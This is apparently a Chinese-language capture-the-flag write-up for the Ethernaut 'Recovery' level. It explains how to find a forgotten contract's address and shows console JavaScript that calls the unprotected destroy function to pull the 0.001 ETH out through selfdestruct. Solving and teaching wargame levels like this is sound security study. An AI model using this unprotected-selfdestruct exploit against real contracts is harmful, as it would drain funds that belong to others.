



# 17. Recovery
### 原题
有个工厂函数，任何人都可以发币。有个人呢，创建了一个代币合约， 为了更多的代币，还向合约转了0.001eth，但是后来把这个合约的地址忘记了。这个糊涂鬼让我们帮忙找回地址，并追回损失。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
### 分析
使用`new`来创建代币合约，底层使用`CREATE`，\
简单来讲，新建合约的地址是这么来的。\
`address = keccak256(RLP(sender, nonce))[12:]`\
同时有个不设限的函数`destroy`，执行`selfdestruct`\
指定的地址就可以收到新建代码合约的余额转账。\
我们不要忘记了，所有的链上交易行为，都可以在区块链的浏览器上查询到。\
所以最简单的方式就是在浏览器上去查创建合约的交易记录。\


这时候我们找到了新建的合约同时还有0.001ETH的转账记录。
我们打开`https://ethernaut.openzeppelin.com/level/0xAF98ab8F2e2B24F42C661ed023237f5B7acAB048`这个关卡页面。\
此页面已经注入了web3.js，所以我们可以直接console界面输入js代码来破解。\

```javascript
// "0x9E9277BC1244C0E18923AF3B88f5c78a098d3F8D"新建合约地址，从浏览器查询得到
let target = "0x9E9277BC1244C0E18923AF3B88f5c78a098d3F8D"
// 指定接收新建合约selfdestruct后的转账的地址
let sender = "0x5C7C4ce6EB0D638AF91C2726BFeA5F6A8ABB0a61"
// 我们需要通过发送消息调用destroy函数
// 写了destroy的ABI
let functionSignature = {
    name: 'destroy', type: 'function', inputs:[{type: 'address', name: '_to'}]
}
// 构造消息的DATA
// sender 对应就是destroy函数的参数_to
let data = web3.eth.abi.encodeFunctionCall(functionSignature, [sender])

// 向新建合约发送交易
let tx = await sendTransaction({
    from: sender,
    to: target,
    data: data
})

```